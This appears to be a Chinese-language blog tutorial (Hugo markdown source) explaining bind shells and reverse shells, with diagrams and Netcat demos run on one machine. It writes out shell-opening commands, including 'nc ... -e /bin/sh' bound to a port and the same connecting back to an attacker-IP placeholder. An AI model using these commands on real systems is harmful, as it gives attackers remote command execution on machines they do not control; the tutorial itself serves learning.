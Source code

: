 ```yaml
---
title: "Bind Shell 與 Reverse Shell"
description: ""
date: 2021-01-10T21:00:59+08:00
draft: false
featureImage: "/images/hero-main.jpg"
images:
    - "/images/og_image.png"
categories:
    - 資訊安全
tags:
    - 攻擊手法
    - Netcat
    - 遠端執行指令攻擊
---
```


Bind Shell 與 Reverse Shell 是兩種常見的遠端執行指令的技術，讓攻擊者可以向目標主機發送並執行指令，常與檔案上傳漏洞 (File Upload Vulnerabilities) 搭配使用。

這是我在研究檔案上傳漏洞時發現的一個有趣的攻擊手法，所以把它記錄下來，但也沒有太深入去專研，所以讀完本文不會讓你精通，只會讓你簡單了解並知道如何使用。

本文將使用 Netcat 來 Demo。

<!--more-->

## Bind Shell

Bind Shell 是在目標主機中，將 Shell (或其他執行的程式) 綁定在某一個 Port 上，執行由那個 Port 收到的指令，而攻擊者就可以建立連線後，利用對這個 Port 發送指令進而執行攻擊指令。

如果防火牆有擋 Port，就不能用這個方式，要改用 [Reverse Shell](#reverse-shell)。

{{<mermaid>}}

graph LR
    subgraph "Bind Shell"
    a[發送攻擊指令] --連線某個 TCP Port-->b
    subgraph 攻擊者
        a
    end
    subgraph 目標
        b[Shell]
    end
    end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 於目標上監聽 Port 1234，並使用 sh 去執行。
   
   ```bash
   nc -l -v -p 1234 -e /bin/sh
   ```
   
2. 攻擊者與 Port 1234 建立連線。
   
   ```bash
   nc <目標 IP> 1234
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/bind_shell_demo.png" caption="Bind Shell Demo (左為攻擊者 / 右為目標)" >}} 

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## Reverse Shell

Reverse Shell 剛好跟 Bind Shell 相反，是在攻擊者這邊監聽一個 Port，然後將目標主機與這個 Port 建立連線，再將收到的指令由 Shell (或其他執行的程式) 執行。

常用於因為防火牆規則無法與其他 Port 建立連線時，但可以對外連線時使用。

{{<mermaid>}}

graph RL
subgraph "Reverse Shell"
    b --連線某個 TCP Port-->a[發送攻擊指令]
subgraph 攻擊者
    a
end
subgraph 目標
    b[Shell]
end
end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 攻擊者監聽 Port 1234。
   
   ```bash
   nc -l -v -p 1234
   ```

2. 目標主機與攻擊者的 Port 1234 建立連線，並使用 sh 去執行。
   
   ```bash
   nc <攻擊者 IP> -e /bin/sh
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/reverse_shell_demo.png" caption="Reverse Shell Demo (左為攻擊者 / 右為目標)" >}}

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## 備註

雖然現在在 Linux 上直接安裝的 Netcat 不會帶有 `-e` 的參數，但還是有其他的替代方式可以使用，但本文 Demo 只為了簡單講解其運作方式，使用 `-e` 的方式執行。
